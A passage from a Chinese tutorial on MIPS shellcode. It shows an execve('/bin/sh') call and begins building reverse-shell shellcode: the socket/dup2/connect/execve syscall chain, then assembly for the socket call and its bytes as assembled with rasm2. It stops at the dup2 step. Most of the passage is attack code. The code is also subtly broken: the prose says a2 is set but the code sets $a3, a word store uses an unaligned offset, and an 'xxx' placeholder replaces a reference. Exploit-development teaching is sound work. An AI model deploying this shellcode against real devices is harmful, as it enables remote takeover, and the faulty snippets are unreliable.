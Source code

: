 ```
syscall 0x40404						// 调用 execve("/bin/sh",0,0);
```

- 在第一、第二行中，lui 和 ori 指令配合使用可以赋值一个 4 字节空间，lui 指令赋值高位 2 字节，ori 指令赋值低位 2 字节。


## 反弹 shell 的 shellcode 汇编代码编写

在实际使用 shellcode 进行利用的过程中，一般是编写、使用能够反弹 shell 的 shellcode 来 getshell 而不使用直接执行 `execve` 函数的方法。针对于反弹 shell 的 shellcode 汇编代码，编写起来会更加复杂，但是系统调用的过程步骤都是不变的：

```
socket(2,1,0) -> dup2(s,0/1/2) -> connect(s,(sockaddr *)&addr,0x10) \
    -> execve("/bin/sh",["/bin/sh",0],0) -> exit(0)
```

那么这里就对几个函数调用的步骤进行分解，依次写出系统调用的汇编代码。

### socket 系统调用

这里我们使用 TCP reverse shell 的方式来反弹 shell。那么调用 `socket` 函数以 C 语言来表示的话如下：

```
socket(AF_INET,SOCK_STREAM, 0)
```

在 xxx 中，我们可以查到 `AF_INET`、`SOCK_STREAM` 常量对应的数值为 2 和 1。同样可以知道 `socket` 的系统调用号为 4183。

第一步先给三个参数（a0、a1、a2）赋值，即：

```
addiu  $a0, $zero, 2;
addiu  $a1, $zero, 1;
addiu  $a3, $zero, 0;
addiu  $v0, $zero, 0x1057;
syscall 0x40404;
sw $v0,10($sp);								// 将描述符存入栈中
```

使用 `rasm2` 进行汇编转换为 shellcode：

```
➜  mips cat conn
addiu  a0, zero, 2;
addiu  a1, zero, 1;
addiu  a3, zero, 0;
addiu  v0, zero, 0x1057;
syscall 0x40404;
sw $v0,10($sp);

➜  mips rasm2 -a mips -b 32 -C -f ./conn
"\x02\x00\x04\x24\x01\x00\x05\x24\x00\x00\x07\x24\x57\x10\x02\x24\x0c\x00\x00\x00"
```

- 在将汇编代码写进文件时，因为 `rasm2` 无法识别 $，所以需要手动去掉 $ 符号。

### dup2 系统调用
